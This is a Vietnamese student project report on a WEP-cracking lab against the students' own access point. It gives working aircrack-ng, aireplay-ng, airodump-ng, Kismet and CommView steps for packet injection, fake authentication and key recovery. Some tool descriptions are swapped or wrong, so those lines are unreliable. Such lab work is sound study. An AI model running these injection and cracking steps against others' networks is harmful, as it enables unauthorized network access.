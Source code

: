 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: WEP Cracking**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **I. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Máy attacker hệ điêu hành kali 20201b
#### **II. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **III. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```\
Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
```airodump-ng wlan0mon```\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon```\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon```\
Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon```\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng [tên file capture đã bắt ở trên]```\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image004.png)\
Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
```airodump-ng wlan0mon```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image006.png)\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image007.png)\
Bước 5: Bắt các IV được sinh ra từ Access point\
```airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image008.png)\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image009.png)\
Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image010.png)\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng WEPcrack-01.cap```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image011.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image012.png)\
* ==> tìm được key : _*KietKhe.@/;
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image013.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image014.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image015.png)
#### **II.Sử dụng công cụ kismet và aircrack-ng để tìm password**
* Bước 1: Vào file **/etc/kismet/kismet_logging.conf** sửa file:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/fileCauHinh.png)\
* Bước 2: Bật chế độ monitor\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)\
* Bước 3: Chạy kismet và một lúc để bắt đủ số lượng gói tin
```sudo kismet -c wlan0mon```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/Screenshot_2020-06-30_10-34-02.png)
* Bước 4: Chuyển file pcapng thành pcap bằng wireshark ( Mở file pcapng lên bằng wireshark và lưu lại thành file pcap)
* Bước 5: Dùng aircrack-ng để tìm password
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/ap.png)\
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/PASS.png)

#### **III.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image016.png)\
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image017.png)\
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image018.png)\
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image019.png)\
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image020.png)\
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image021.png)\
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] \
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image022.png)\
==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image023.png)


